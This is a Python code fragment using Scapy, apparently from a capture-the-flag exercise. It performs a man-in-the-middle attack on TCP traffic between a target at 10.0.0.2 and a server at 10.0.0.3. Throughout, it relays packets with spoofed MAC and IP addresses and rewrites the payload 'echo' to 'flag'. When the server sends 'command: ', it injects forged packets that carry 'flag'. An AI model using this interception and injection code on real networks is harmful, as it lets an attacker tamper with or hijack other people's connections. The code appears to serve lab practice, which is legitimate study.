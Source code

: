 ```py
        new_pack = None 
        if pack.haslayer(Raw):
            new_pack = Ether()/IP()/TCP()/Raw(load=pack[Raw].load)
        else:
            new_pack = Ether()/IP()/TCP()

        if pack[IP].src == target_ip:
            print("SRC: 10.0.0.2")
            new_pack[Ether].dst = server_mac
            new_pack[Ether].src = my_mac
            new_pack[IP].dst = server_ip
            new_pack[IP].src = target_ip

            new_pack[TCP].sport = pack[TCP].sport
            new_pack[TCP].dport = pack[TCP].dport
            new_pack[TCP].seq = pack[TCP].seq
            new_pack[TCP].ack = pack[TCP].ack
            new_pack[TCP].flags = pack[TCP].flags

            if pack.haslayer(Raw):
                if pack[Raw].load == b"echo":
                    print("修改: echo -> flag")
                    new_pack[Raw].load = b"flag"
                if pack[Raw].load.startswith(b"pwn"):
                    print("触发退出条件")
                    sys.exit(0)
                if pack[Raw].load == b"Hello, World!":
                    print(" I FIND!!!!!!")
                    return 
                print(f"Payload: {new_pack[Raw].load}")
        elif pack[IP].src == server_ip:
            print("SRC: 10.0.0.3")
            new_pack[Ether].dst = target_mac
            new_pack[Ether].src = my_mac
            new_pack[IP].dst = target_ip
            new_pack[IP].src = server_ip

            new_pack[TCP].sport = pack[TCP].sport
            new_pack[TCP].dport = pack[TCP].dport
            new_pack[TCP].seq = pack[TCP].seq
            new_pack[TCP].ack = pack[TCP].ack
            new_pack[TCP].flags = pack[TCP].flags
            
            if pack.haslayer(Raw):
                print(f"Payload: {pack[Raw].load}")
                if pack[Raw].load == b'command: ':
                    new_pack[Ether].dst = my_mac
                    new_pack[Ether].src = target_mac
                    new_pack[IP].dst = server_ip
                    new_pack[IP].src = target_ip

                    new_pack[TCP].sport =pack[TCP].dport 
                    new_pack[TCP].dport =  pack[TCP].sport
                    new_pack[TCP].seq = pack[TCP].ack 
                    new_pack[TCP].ack =  pack[TCP].seq + 9
                    new_pack[TCP].flags = "PA"

                    new_pack[Raw].load= b"flag"
        # 调试：发送前打印校验和
        print(f"发送包: {new_pack.summary()}")
        print(f"IP 校验和: {new_pack[IP].chksum}, TCP 校验和: {new_pack[TCP].chksum}")
        sendp(new_pack, iface=iface, verbose=0)

```